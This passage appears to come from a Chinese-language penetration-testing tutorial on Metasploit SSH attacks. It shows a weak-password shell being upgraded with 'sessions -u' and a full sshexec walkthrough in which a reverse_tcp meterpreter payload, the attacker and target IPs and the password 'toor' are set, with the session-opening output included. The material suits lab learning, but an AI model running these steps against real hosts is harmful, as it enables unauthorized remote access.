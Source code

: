 
![enter image description here](img/img6_u34_png.jpg)

这里 metasploit 在探测 ssh 弱口令时，如果发现存在，则会返回一个 linux shell，注意此时不是 meterpreter shell。接下来可以使用

```
sessions –u id 
```

将 linux shell 升级为 meterpreter shell，本地测试失败了。:(

**sshexec**

模块路径:`auxiliary/scanner/ssh/ssh_login`

注意这个模块 BT5 下是没有的，kali 中则存在。

```
msf> use exploit/multi/ssh/sshexec 
msf exploit(sshexec) > set payload linux/x86/meterpreter/reverse_tcp 
payload => linux/x86/meterpreter/reverse_tcp
msf exploit(sshexec) > set LHOST 192.168.1.105 
LHOST => 192.168.1.105
msf exploit(sshexec) > set LPORT 8080
LPORT => 8080
msf exploit(sshexec) > set RHOST 192.168.1.104
RHOST => 192.168.1.104
msf exploit(sshexec) > set PASSWORD toor
PASSWORD => toor
msf exploit(sshexec) > exploit 

[*] Started reverse handler on 192.168.1.105:8080 
[*] 192.168.1.104:22 - Sending Bourne stager...
[*] Command Stager progress -  40.39% done (288/713 bytes)
[*] Transmitting intermediate stager for over-sized stage...(100 bytes)
[*] Sending stage (1228800 bytes) to 192.168.1.104
[*] Command Stager progress - 100.00% done (713/713 bytes)
[*] Meterpreter session 3 opened (192.168.1.105:8080 -> 192.168.1.104:40813) at 2014-08-07 22:53:12 +0800

meterpreter > 
```
